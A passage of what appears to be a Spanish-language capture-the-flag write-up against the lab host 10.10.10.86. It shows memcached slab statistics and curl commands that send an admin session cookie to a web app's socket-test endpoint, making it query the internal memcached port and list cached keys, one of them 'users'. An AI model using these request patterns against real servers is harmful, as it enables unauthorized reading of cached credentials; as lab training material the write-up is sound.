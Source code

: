 ```null
STAT items:16:outofmemory 0
STAT items:16:tailrepairs 0
STAT items:16:reclaimed 0
STAT items:16:expired_unfetched 0
STAT items:16:evicted_unfetched 0
STAT items:16:crawler_reclaimed 0
STAT items:16:crawler_items_checked 0
STAT items:16:lrutail_reflocked 0
STAT items:26:number 1
STAT items:26:age 2472
STAT items:26:evicted 0
STAT items:26:evicted_nonzero 0
STAT items:26:evicted_time 0
STAT items:26:outofmemory 0
STAT items:26:tailrepairs 0
STAT items:26:reclaimed 0
STAT items:26:expired_unfetched 0
STAT items:26:evicted_unfetched 0
STAT items:26:crawler_reclaimed 0
STAT items:26:crawler_items_checked 0
STAT items:26:lrutail_reflocked 0
END
```

Me quedo con el 16

```null
curl -s -X GET -H "Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.Fw3WSQ.basXy4Olas4HVlr7_Ts_-AuKPnI; password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd=stats+cachedump+16+0' | html2text

Status of cache engine: Online
*** TCP socket test ***
[port                ] [cmd                 ]
/input>
Output
ITEM stock [2807 b; 1680623081 s]
END
```

El item stock de momento no le voy a prestar importancia. Con el otro identificador obtengo uno llamado ```users```

```null
curl -s -X GET -H "Cookie: session=eyJ1c2VybmFtZSI6ImFkbWluIn0.Fw3WSQ.basXy4Olas4HVlr7_Ts_-AuKPnI; password=secret" 'http://10.10.10.86:8080/socket?port=11211&cmd=stats+cachedump+26+0' | html2text

Status of cache engine: Online
*** TCP socket test ***
[port                ] [cmd                 ]
/input>
Output
ITEM users [24625 b; 1680622823 s]
END
```
